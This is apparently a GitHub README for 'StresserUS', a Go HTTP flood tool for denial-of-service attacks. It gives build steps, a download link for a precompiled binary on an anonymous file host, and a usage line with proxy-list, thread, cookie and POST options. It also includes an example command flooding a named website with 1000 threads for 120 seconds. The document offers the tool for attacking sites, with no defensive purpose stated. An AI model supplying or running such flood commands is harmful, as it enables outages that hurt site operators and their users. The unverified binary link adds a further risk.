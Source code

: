 # smart-httpflood
Golgang smart http flood


This script supports HTTP Version, Cookie and Post Data.

Installation:

apt install snapd

snap install go --classic

go build

Link for compiled: https://anonfiles.com/HcO577T7u6/StresserUS


Usage:


./StresserUS version=<version> host=<host> domain=<host header> limit=<rs-ip> time=<time> list=<proxies.txt> threads=<threads> mode=GET/POST cookie=<ddos=true> data=<post=true>


Eexample:


./StresserUS version=2 host=https://pizza-delivery.com limit=64 time=120 list=proxy.txt threads=1000 mode=GET
